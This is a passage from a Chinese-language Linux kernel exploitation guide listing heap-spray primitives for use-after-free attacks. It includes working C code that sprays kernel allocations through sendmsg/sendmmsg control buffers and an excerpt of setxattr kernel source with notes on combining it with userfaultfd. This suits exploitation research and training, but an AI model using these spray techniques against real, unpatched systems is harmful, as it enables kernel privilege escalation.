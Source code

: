 **size**：可选（>=2）

**产生**：`sendmsg`，数据放入`msg.msg_control`指针。

**释放**：与产生路径相同。

**备注**：与`setxattr`相同，可与userfaultfd结合使用。

```c
// 限制: BUFF_SIZE > 44
char buff[BUFF_SIZE];
struct msghdr msg = {0};
struct sockaddr_in addr = {0};
int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
addr.sin_addr.s_addr = htonl(INADDR_LOOPBACK);
addr.sin_family = AF_INET;
addr.sin_port = htons(6666);
// 布置用户空间buff的内容
msg.msg_control = buff;
msg.msg_controllen = BUFF_SIZE; 
msg.msg_name = (caddr_t)&addr;
msg.msg_namelen = sizeof(addr);
// 假设此时已经产生释放对象，但指针未清空
for(int i = 0; i < 100000; i++) {
  sendmsg(sockfd, &msg, 0);
}
// 触发UAF即可

// 方法2
	int sock[2];
	socketpair(AF_LOCAL, SOCK_DGRAM, 0, sock);
	struct mmsghdr msg[1];

	msg[0].msg_hdr.msg_iovlen = 0;
	// Buffer to kmalloc.
	msg[0].msg_hdr.msg_control = &buffer[0];
	msg[0].msg_hdr.msg_controllen = 2048;
	// Make sendmmsg exit easy with EINVAL.
	msg[0].msg_hdr.msg_name = "root";
	msg[0].msg_hdr.msg_namelen = 1;
	syscall(__NR_sendmmsg, sock[0], msg, 1, 0);
```

#### 3. setxattr

**参考**：[setxattr+userfault堆喷](https://xz.aliyun.com/t/2814)    [CVE-2019-15666 xfrm UAF 8字节写NULL提权分析](https://www.anquanke.com/post/id/253234)

**size**：可选（<65536）

**产生**：`setxattr()`。

```c
static long setxattr(struct dentry *d, const char __user *name, const void __user *value,
	 size_t size, int flags)
{
	int error;
	void *kvalue = NULL;
	char kname[XATTR_NAME_MAX + 1];
	... ...
	if (size) {
		if (size > XATTR_SIZE_MAX)
			return -E2BIG;
		kvalue = kvmalloc(size, GFP_KERNEL);				// [1] 分配空间
		if (!kvalue)
			return -ENOMEM;
		if (copy_from_user(kvalue, value, size)) {			// [2] 拷贝用户数据
			error = -EFAULT;
```